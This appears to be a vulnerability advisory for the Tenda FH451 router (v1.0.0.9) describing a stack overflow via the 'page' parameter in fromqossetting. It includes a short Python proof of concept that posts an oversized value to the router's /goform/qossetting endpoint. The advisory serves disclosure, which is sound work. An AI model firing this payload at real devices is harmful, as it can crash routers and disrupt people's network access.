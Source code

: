 # Tenda FH451 fromqossetting
### Overview
vendor: Tenda

product: FH451

version: v1.0.0.9

type: Stack Overflow
### Vulnerability Description
Tenda FH451 v1.0.0.9 were discovered to contain a stack overflow via the page parameter in the fromqossetting function.

### Vulnerability details
In function fromqossetting line 21, it reads in a user-provided parameter `page`. The variable `v8` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/6.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/qossetting"

data = {
    "page": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```